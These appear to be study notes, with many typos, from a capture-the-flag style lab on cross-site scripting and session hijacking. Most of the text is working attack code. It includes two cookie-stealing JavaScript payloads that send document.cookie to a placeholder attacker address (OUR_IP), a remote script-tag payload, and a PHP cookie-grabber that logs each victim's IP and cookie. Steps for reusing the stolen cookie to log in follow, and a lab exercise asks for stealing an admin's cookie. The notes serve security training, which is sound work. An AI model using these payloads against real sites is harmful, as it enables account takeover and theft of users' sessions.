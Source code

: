 > [!TIP]
> We'll notice that the mail must match and email format wven if we try manipulating the HTTP request parameter, as it seems to be validated on both the front and back. The mail
> field is no vulnerable, and we can skip testing it. We may skip the pass field, as pass are usually hashed and not usually shon in cleatext. This helps to reducing the number of probabilities.

- Session Hijacking:
One we find working XSS payload and have identified the vulnerable input field, we can processed to xSS explotation and perform a SEssion Hijacking attack.
```js
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
Using any of the two payloads should work sending us a cookie, but we'll use the second one, as it simply adds an image tothe page, which may no be very malicius loocking, while the first navigate to our cookie
grabber PHP page, which may look suspicious.
`new Image().src='http://OUR_IP/index.php?c='+document.cookie`
`<script src=http://OUR_IP/script.js></script>`

Whit our php server running, we can now usw th code as part XSS payload, send it vulnerable input field, asn we should het a call to our server with th cookie value.
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Then get the cookie and the scrio.js
```sh
 /script.js
 /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```
then we can cat the cookie and remplace in the storage in inspect section.

exercise:
Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the'
Admin's cookie and use it in 'login.php' to get the flag.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>


```
